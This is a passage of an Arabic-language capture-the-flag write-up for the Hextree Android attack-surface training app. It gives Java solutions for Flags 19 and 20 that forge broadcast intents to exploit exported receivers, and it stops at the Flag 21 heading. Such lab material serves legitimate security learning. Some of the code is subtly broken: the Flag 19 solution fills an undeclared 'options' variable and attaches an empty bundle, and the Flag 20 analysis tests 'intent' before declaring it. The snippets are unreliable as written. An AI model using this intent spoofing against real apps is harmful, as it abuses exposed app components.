 #### الحل

يعني هنعمل متغير من نوع `Bundle`  ونديله الـ data ونحط الـ action الصح:

```java
Intent intent  = new Intent();  
intent.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag19Widget"  
));  
Bundle bundle = new Bundle();  
options.putInt("appWidgetMaxHeight", 1094795585);  
options.putInt("appWidgetMinHeight", 322376503);  
  
intent.putExtra("appWidgetOptions", bundle);  
intent.setAction("APPWIDGET_UPDATE");  
sendBroadcast(intent);
```

### Flag 20

#### تحليل الكود

```java
  public static String GET_FLAG = "io.hextree.broadcast.GET_FLAG";
  public void onCreate(Bundle bundle) {
		
		if (intent == null) { return; }
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action != null && action.equals(GET_FLAG)) {
            success(this);
            return;
        }
        Flag20Receiver flag20Receiver = new Flag20Receiver();
        IntentFilter intentFilter = new IntentFilter(GET_FLAG);
        registerReceiver(flag20Receiver, intentFilter);
    }
```

ده بيسجل receiver للـ  `io.hextree.broadcast.GET_FLAG`  action ولما يجيله intent مش فاضي بالـ action ده هنقدر نجيب الـ Flag.

#### الحل

```java
Intent intent = new Intent();  
intent.setAction("io.hextree.broadcast.GET_FLAG");  
intent.putExtra("give-flag", true);   // أي data
sendBroadcast(intent);
```

### Flag 21

#### تحليل الكود
